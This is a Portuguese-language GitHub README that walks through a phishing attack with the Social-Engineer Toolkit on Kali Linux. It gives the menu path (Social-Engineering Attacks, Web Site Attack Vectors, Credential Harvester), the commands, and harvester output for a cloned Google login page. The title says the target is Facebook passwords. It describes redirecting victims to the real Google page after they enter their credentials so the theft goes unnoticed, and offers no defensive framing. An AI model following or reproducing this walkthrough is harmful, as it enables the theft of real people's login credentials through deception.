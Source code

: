 # Phishing para captura de senhas do Facebook
Ferramenta para capturar dados com a utilização de Engenharia Social utilizando Phishing

## Ferramentas Necessárias 
- Kali Linux
  ```
  https://www.kali.org/get-kali/#kali-platforms
  ```
- Kit de ferramentas de configuração
  ```
  sudo apt-get update && sudo apt-get upgrade && sudo apt-get dist-upgrade 
  ```
## Configurando o Phishing no Kali Linux
- Acesso root:sudo su
- Iniciando o setoolkit no terminal: setoolkit

## Passo a Passo
1- Tipo de ataque: Social-Engineering Attacks

2- Vetor de ataque:Web Site Attack Vectors

3- Método de ataque:Credential Harvester Attack Method 

4- Método de ataque: Web Templates
 ```
   1) Web Templates
   2) Site Cloner
   3) Custom Import
```


5- Obtendo o seu endereço da máquina:ifconfig

6- Selecione: Google
```
    1. Java Required
    2. Google
    3. Twitter
```

 
 Criando servidor...
   ```
         set:webattack> Select a template: 2
      
      [*] Cloning the website: http://www.google.com                          
      [*] This could take a little bit...                                     
      
      The best way to use this attack is if username and password form fields 
      [*] The Social-Engineer Toolkit Credential Harvester Attack
      [*] Credential Harvester is running on port 80                          
      [*] Information will be displayed to you as it arrives below:           
      ^C[*] File in XML format exported to /root/.set/reports/2024-12-08 09:46:12.444060.xml for your reading pleasure...                             
      

  ```
## Site criado no IP utilizado

- Exemplo 192.168.1.0
```
  set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.1.10]:
```
## Utilização do Template Google
Após a vítima se conectar ao site phishing, ela irá se deparar com a Tela de Login, após se conectar automaticamente será redirecionada para a pagina do Google, como se o login tivesse funcionado. 

![tela](https://github.com/user-attachments/assets/fd493b8a-bdfd-407f-9a4f-1f141f70a006)

## Redirecionamento
![fake](https://github.com/user-attachments/assets/137eb1dc-5dc0-49cf-b53c-5e3a58f1258c)

## Resultado na tela do Atacante






